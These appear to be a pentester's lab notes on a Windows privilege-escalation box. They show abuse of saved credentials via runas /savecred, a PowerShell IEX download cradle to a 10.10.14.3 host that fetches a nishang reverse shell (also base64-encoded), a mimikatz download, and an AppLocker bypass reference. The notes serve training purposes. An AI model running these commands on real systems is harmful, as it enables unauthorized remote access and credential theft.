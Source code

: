 ```ad-note
we can do `git pull` to see if there are any updates on git clone files
```

- we will see stored credentials, we can also do
```
cmdkey /list
```
Sth that  has to do with DPAPI
- we can check the permissions on the web server
```
cd C:\inetpub\wwwroot
then we can ddo 
echo 'Please sub' > test
but we don't have write permissions
```
- if we poke around we can see a lnk file in Users]Public\Desktop, we can do 
```
Get-Content "file.lnk"
```
if we wanted to extract the linke we can do it with PS
```powershell
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-ChildItem *.lnk
$shortcut # we can see the lnk file
```

no that we have the comobject created with the first command that we ran, we can do 
```powershell
$WScript.createshortcut($shortcut) # it wont create it if we specify sth that already exists so we can see the FullName and information about the link
```
- we can try to use the saved creds to get a reverse shell but it didn't work
```
runas /user:ACCESS\Administrator /savecred "powershell """IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/9002.ps1')""""
```
- we can convert the iex command to base64 to get a reverse powershell with nishang (9002.ps1) using
```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```
LE is little endian
```
runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand <base64>"
```
-  and we get a reverse shell in our listener and we get a shell as admin

Lets pretend we wanted to get the credentials from the machine using mikatze
- get the mimikatz
```
(New-Object Net.WebClient).DownloadFile('http://10.10.14.3:8000/mimikatz.exe','mimikatz.exe')
```
we use DownloadFile and we save it as mimikatz.exe
```
.\mimikatz.exe
```
- if we see the program is blocked by group policy, so we will move it to a windows directory where we can bypass this (Applocker bypass list)
so using [UltimateAppLockerByPassList/Generic-AppLockerbypasses.md at master · api0cradle/UltimateAppLockerByPassList · GitHub](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)
